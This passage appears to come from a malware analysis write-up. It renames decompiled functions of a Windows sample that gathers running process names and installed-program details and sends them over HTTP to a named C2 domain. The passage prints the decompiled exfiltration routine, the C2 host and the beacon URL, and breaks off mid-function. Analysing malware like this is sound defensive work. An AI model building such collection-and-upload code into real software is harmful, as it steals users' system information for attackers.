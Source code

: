 Getting back to **Code 26**, we now know that this:
```cpp
hRequest = HttpOpenRequestA(hConnect, a6 == 0 ? "POST" : 0, lpszObjectName, 0, 0, 0, dwFlags, 0);
if ( hRequest )
{
  if ( a6
    || (ProcessHeap = GetProcessHeap(), (lpOptional = HeapAlloc(ProcessHeap, 8u, 0x2800u)) != 0)
    && !sub_403AC0(lpOptional, 10240)
    && !sub_4035B0(lpOptional, 10240)
    && (int)sub_402940(lpOptional, 10240, &dwOptionalLength) >= 0 )
```

Can be renamed to this:
```cpp
 if ( a6|| (ProcessHeap = GetProcessHeap(), (buff = HeapAlloc(ProcessHeap, 8u, 0x2800u)) != 0)
  && !AppendAllActiveProcessExeNames(buff, 10240)
  && !AppendInstalledProgramsInfo(buff, 10240)
  && (int)getRealBufferSize(buff, 10240, &realBufferLength) >= 0 )
```

So what happens is that our `buff` will now contain multiple strings for:
- Each active process => related EXE name,
- Each installed program => formatted as DisplayName | DisplayVersion

Now we can explain what Code 26 actually does:
1) Connects to the C2 server (which we found out before to be `732u3hdgfss.com`) with `hConnect = InternetConnectA(hInternet, lpszServerName, 0x50u, 0, 0, 3u, 0, 0)`
2) Opens a HTTP request (`hRequest = HttpOpenRequestA(hConnect, IsGetReq == 0 ? "POST" : 0, lpszObjectName, 0, 0, 0, dwFlags, 0);`), specifically using `"searcho?fr=altavista&itag=ody&q=LJRf0SCBd_PQg6%2Ce61bcb45eae47ce1&kgs=1&kls=0&p=21"`
3) Retrieves all active process EXE names, installed programs info, and appends everything as strings into a buffer
4) Sends the buffer to `732u3hdgfss.com/searcho?fr=altavista&itag=ody&q=LJRf0SCBd_PQg6%2Ce61bcb45eae47ce1&kgs=1&kls=0&p=21` (`HttpSendRequestA(hRequest, szHeaders, 0x2Fu, buff, realBufferLength`) ==> Note that this link depends on the generated UserID, so each User that runs the malware will have their specific URL.
   **Note** that the buffer is sent only if the last function argument is 1.
6) Checks the C2's server response: if 200 (HTTP OK) stores it in `a5`, and stores the server's response in the first parameter (`InternetReadFile(hRequest, *a1, 0x200000u, lpdwNumberOfBytesRead)`).

Finally, we can rewrite **Code 26** as:
```cpp
int __cdecl SendInfoAndRetrieveResponse(
        LPVOID *serverResponseOut,
        LPDWORD lpdwNumberOfBytesRead,
        LPCSTR lpszServerName,
        LPCSTR lpszObjectName,
        _DWORD *httpStatusCodeOut,
        int IsGetReq)
{
  HANDLE ProcessHeap; // eax
  HANDLE v8; // eax
  _BYTE *buff; // [esp+8h] [ebp-5Ch]
  int Buffer; // [esp+Ch] [ebp-58h] BYREF
  int v11; // [esp+10h] [ebp-54h]
  DWORD dwBufferLength; // [esp+14h] [ebp-50h] BYREF
  HINTERNET hRequest; // [esp+18h] [ebp-4Ch]
  HINTERNET hConnect; // [esp+1Ch] [ebp-48h]
  int v15; // [esp+20h] [ebp-44h] BYREF
  DWORD realBufferLength; // [esp+24h] [ebp-40h] BYREF
  CHAR szHeaders[48]; // [esp+28h] [ebp-3Ch] BYREF
  DWORD dwFlags; // [esp+5Ch] [ebp-8h]
  HINTERNET hInternet; // [esp+60h] [ebp-4h]

  v11 = -2147467259;
  hInternet = 0;
```